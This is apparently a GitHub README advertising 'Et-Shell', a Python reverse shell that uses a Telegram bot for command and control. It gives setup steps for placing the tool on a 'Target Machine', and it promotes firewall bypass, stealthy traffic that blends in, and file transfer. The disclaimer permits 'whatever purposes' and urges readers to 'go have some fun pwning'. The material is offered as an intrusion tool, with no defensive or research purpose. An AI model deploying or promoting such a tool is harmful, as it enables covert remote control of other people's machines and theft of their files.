 # ⚡ Et-Shell – The Easiest Reverse Shell You’ll Ever Use!

Forget complicated setups. **Et-sHell** gives you a **fully functional reverse shell** using **Telegram**—no need for a remote server, no open ports, no headaches. Just straight-up shell access, routed through Telegram’s servers.

## 🔥 Why etShell?

-   **Broke? No server?, no problem** – No need to set up a VPS, configure nginx rules or expose your IP.
-   **Firewall? Bypass it.** – No open ports, no NAT issues, just seamless communication.
-   **Command & Control via Telegram** – Send shell commands from your girlfriend's dorm room with your phone.
-   **Discreet & Stealthy** – Blends in like a ghost – Telegram traffic = Innocent AF!.
-   **File Transfers** – Upload and download files.
-   **Live Mode** – Watch command output in real-time.

## 🛠️ Setup in 60 Seconds

1.  **Create a Telegram bot** via [@BotFather](https://t.me/BotFather).
2.  **Clone this repo on your Target Machine/ wget `etshell.py`**:
    
    ```
    git clone https://github.com/getmydropper/Et-Shell   
    ```
    
3.  **Install dependencies**:
    
    ```
    pip install telepot  
    ```
        
 4. **Paste your bot `TOKEN` obtained from  [@BotFather](https://t.me/BotFather) in `etshell.py`.**
    
5.  **Run it**:
    
    ```
    python etshell.py  
    ```
    
5.  **Start commanding your Target Machine via Telegram.**

## ⚠️ Disclaimer

This tool is for **whatever purposes** and make sure your bot token stays safe. If you use it for anything shady, that's on you. Don’t be dumb.

Now go have some fun pwning!

![Static Badge](https://img.shields.io/badge/dm_for_queries-dont_be_skid-lol?style=for-the-badge&logo=telegram&logoColor=white&logoSize=auto&color=blue&link=https://t.me://@hello_elliot_bot)
----------

#### LICENSE
```
             DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
                    Version 2, December 2004

 Copyright (C) 2004 Sam Hocevar <sam@hocevar.net>

 Everyone is permitted to copy and distribute verbatim or modified
 copies of this license document, and changing it is allowed as long
 as the name is changed.

            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
   TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION

  0. You just DO WHAT THE FUCK YOU WANT TO.

```
